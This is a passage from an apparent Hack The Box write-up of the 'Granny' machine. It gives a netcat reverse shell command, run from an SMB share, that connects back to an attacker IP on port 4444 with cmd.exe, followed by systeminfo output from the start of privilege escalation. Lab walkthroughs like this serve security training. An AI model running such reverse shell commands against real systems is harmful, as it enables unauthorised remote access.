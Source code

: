 While I'm sharing `nc` and I listening on the port 4444, I run a reverse shell to my attacker machine:
```shell
\\10.10.16.6\smbFolder\nc.exe 10.10.16.6 4444 -e cmd.exe
```


![](/assets/img/Anexos/Máquina%20Granny-4.png)

![](/assets/img/Anexos/Máquina%20Granny-5.png)
## Privilage escalation 
We can see the next sys information:
```shell
C:\>systeminfo
systeminfo

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 57 Minutes, 26 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 735 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,282 MB
Page File: In Use:         188 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```
